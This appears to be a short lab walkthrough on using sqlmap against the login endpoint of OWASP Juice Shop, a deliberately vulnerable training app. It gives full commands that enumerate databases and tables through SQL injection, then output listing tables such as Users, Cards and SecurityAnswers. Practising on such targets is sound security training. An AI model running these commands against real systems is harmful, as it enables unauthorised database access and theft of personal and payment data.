 # SQL Map

It's more effective when you set some default values. It increases the performance.

## Retrieve the databases

```
sqlmap -u 'juice-shop.herokuapp.com/rest/user/login' --data="email=test@test.com&password=test" --level

5 --risk 3 -f --banner --ignore-code 401 --dbs
```


## Retrieve the tables

```
sqlmap -u 'juice-shop.herokuapp.com/rest/user/login' --data="email=test@test.com&password=test" --level

5 --risk 3 -f --banner --ignore-code 401 --tables
```

Here is the result

```
...
[21:51:47] [INFO] retrieved: Quantities
[21:52:00] [INFO] retrieved: Recycles
[21:52:11] [INFO] retrieved: SecurityQuestions
[21:52:37] [INFO] retrieved: SecurityAnswers
[21:52:49] [INFO] retrieved: Wallets
[20 tables]
+-------------------+
| Addresses |
| BasketItems |
| Baskets |
| Captchas |
| Cards |
| Challenges |
| Complaints |
| Deliveries |
| Feedbacks |
| ImageCaptchas |
| Memories |
| PrivacyRequests |
| Products |
| Quantities |
| Recycles |
| SecurityAnswers |
| SecurityQuestions |
| Users |
| Wallets |
| sqlite_sequence |
+-------------------+
```

